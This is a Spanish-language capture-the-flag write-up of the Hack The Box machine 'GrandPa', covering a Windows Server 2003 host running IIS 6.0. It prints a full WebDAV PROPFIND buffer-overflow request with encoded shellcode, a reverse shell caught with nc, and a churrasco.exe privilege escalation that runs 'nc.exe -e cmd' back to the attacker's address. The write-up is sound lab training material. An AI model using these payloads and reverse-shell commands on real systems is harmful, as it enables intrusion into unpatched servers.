 # GrandPa

![Untitled](/assets/images/GrandPa/Untitled.png)

![Untitled](/assets/images/GrandPa/Untitled%201.png)

Hoy voy a estar resolviendo la maquina GrandPa, es una maquina windows de dificultad facil.

Comenzamos siempre con la enumeracion de puertos abiertos:

# **ENUMERACION**

```bash
❯ cat scanPorts
# Nmap 7.91 scan initiated Tue Aug 17 11:53:51 2021 as: nmap -sC -sV -p80 -oN scanPorts 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Tue, 17 Aug 2021 15:58:50 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Solo vemos el puerto 80 abierto, por lo que voy a hacer una enumeracion exhaustiva de su contenido, y despues de perder 1h con algo que me reporto nmap con el script vuln:

```bash
❯ cat scanweb
# Nmap 7.91 scan initiated Tue Aug 17 12:05:50 2021 as: nmap --script vuln -p80 -oN scanweb 10.10.10.14
Nmap scan report for grandpa.htb (10.10.10.14)
Host is up (0.055s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
```

Me puse a investigar acerca de lo que nos reporta: Frontpage extension anonymous login, pero despues de perder bastante tiempo decidi ir por otro lado, y buscando exploits sobre IIS 6.0 encuentro esto:

# **EXPLOTACION**

```bash
❯ searchsploit IIS 6.0
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Internal Network Name Disclosure                                                                                                                         | windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow                                                                                                                                  | windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion Denial of Service                                                                                                                                    | windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of Service                                                                                                                                             | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhaustion (Denial of Service) (MS10-065)                                                                                                                   | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                                                                                                                 | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass                                                                                                                                                  | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                                                                                                              | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                                                                                                              | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                                                                                                          | windows/remote/8754.patch
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                                                                                                                 | windows/remote/19033.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Un Remote Buffer Overflow, yo creo que a nadie le gusta programar su propio BOF asi que vamos a probar ese mismo. Pero hay un problema, ese script lo que hace es lanzar una calc.exe y yo creo que nadie que este leyendo esto quiere probocar que se abra una calc.exe en la maquina, buscando por google encuentro otro script en python que nos ejecuta una rev.shell hacia nuestro sistema, eso ya si mola mas eh. 

```bash
❯ python iis6\ reverse\ shell 10.10.10.14 80 10.10.16.198 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

Tenemos shell ( ✪ワ✪)ノ ʸᵉᵃʰ ᵎ , pero no podemos visualizar la flag, asi que pasamos a la fase de escalacion de privilegios.

# **ESCALACIÓN DE PRIVILEGIOS**

Como de costumbre vemos los privilegios de nuestro usuario actual:

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

Vaya vaya (¬ ‿¬) como huele a patata caliente, como podemos ver SeImpersonatePrivilege esta activado, por lo que la escalada es bastante sencilla, tiramos de JuicyPotato.exe y listo, pero tenemos que ver antes que sistema operativo se esta usando:

```bash
systeminfo                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                           
Host Name:                 GRANPA                                                                                                                                                                                                          
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition                                                                                                                                                           
OS Version:                5.2.3790 Service Pack 2 Build 3790                                                                                                                                                                              
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 15 Minutes, 58 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
```

Esta usando un sistema operativo de 32bits y ademas es un Windows(R) Server 2003, por lo que es bastante antiguo, y en este tipo de sistemas es mejor tirar de churrasco.exe 

Nos compartimos el directorio de trabajo con la herramienta de impacket y nos copiamos el archivo y el nc.exe para otorgarnos una reverse shell:

```bash
❯ impacket-smbserver share .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
net use \\10.10.16.198\share                                                                                                                                                                                                               
The command completed successfully.
copy \\10.10.16.198\share\churrasco.exe
        1 file(s) copied.
copy \\10.10.16.198\share\nc.exe
        1 file(s) copied.
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\WINDOWS\Temp

08/17/2021  09:28 PM    <DIR>          .
08/17/2021  09:28 PM    <DIR>          ..
08/17/2021  08:41 PM            31,232 churrasco.exe
08/17/2021  08:42 PM            59,392 nc.exe
```

Ahora con churrasco podemos ejecutar nc.exe con privilegios de administrador:

```bash
churrasco.exe -d "C:\Windows\Temp\nc.exe -e cmd 10.10.16.198 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 684 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 700 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

C:\WINDOWS\Temp>
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.14] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami && hostname
nt authority\system
granpa

C:\WINDOWS\TEMP>
```